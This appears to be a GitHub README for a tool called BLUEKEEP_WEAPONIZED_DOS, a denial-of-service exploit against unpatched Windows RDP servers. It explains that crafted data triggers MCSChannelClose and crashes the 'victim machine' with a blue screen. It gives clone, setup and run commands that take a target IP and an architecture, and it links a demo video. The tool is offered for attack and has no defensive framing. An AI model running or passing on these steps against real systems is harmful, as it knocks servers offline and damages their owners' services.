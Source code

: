 # BLUEKEEP_WEAPONIZED_DOS

<p><b>
  This is a weaponized Bluekeep module, that will cause an unpatched server , to crash or worse , Cause a BSOD. 
  his module works by sending crafted data required to trigger the call to MCSChannelClose.
  This causes prematurely closing an internal channel, which results in a BSOD on the victim machine.
  
</p></b>

<p><b>
Installation instructions : 
  
  <p><b>git clone https://github.com/1captainnemo1/BLUEKEEP_WEAPONIZED_DOS.git</p></b>
  <p><b>cd BLUEKEEP_WEAPONIZED_DOS/</p></b>
  <p><b>chmod +x setup.sh</p></b>
  <p><b>./setup.sh    # to clone the impackets module </p></b>
  <p><b>python exploit_bsod_bluekeep.py "IP" 64</p></b>
  <p><b>or</p></b>
  <p><b>python exploit_bsod_bluekeep.py "IP" 32 </p></b>
  <p><b>depending on the victim machine architecture </p></b>
  
  
</p></b>

<p><b>#Author :#Captain_Nemo </p></b>

<p>
  <a href= "https://youtu.be/oUKoKYMpXRE" rel="nofollow">
      <img src="https://github.com/1captainnemo1/BLUEKEEP_WEAPONIZED_DOS/blob/master/bluekeepweapon.jpg?raw=true"  alt="to_video" style="max-width:100%;">
  </a>
</p>
